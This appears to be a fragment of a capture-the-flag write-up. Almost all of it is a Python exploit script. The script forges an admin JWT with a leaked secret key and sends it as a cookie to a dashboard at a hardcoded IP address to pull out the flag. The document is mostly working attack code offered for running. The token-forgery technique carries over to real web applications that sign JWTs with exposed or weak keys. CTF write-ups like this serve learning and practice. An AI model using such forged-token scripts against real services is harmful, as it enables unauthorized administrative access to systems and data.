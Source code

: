 ```python:exploit.py
#!/usr/bin/env python3

import requests
import jwt
import re

url = "http://159.223.192.150:5002/dashboard"
key = "2839aab1-1155-4b5c-a606-4a3b4eafc706"

username = "admin"
payload =  { "username" : username }
jwt = jwt.encode(payload=payload, key=key)

r = requests.get(url, cookies={"JWT" : jwt})

flag = re.findall('flag: (.*?)</p>', r.text)[0]
print(f"Flag: {flag}")
```

Running this script, we'll get the flag.
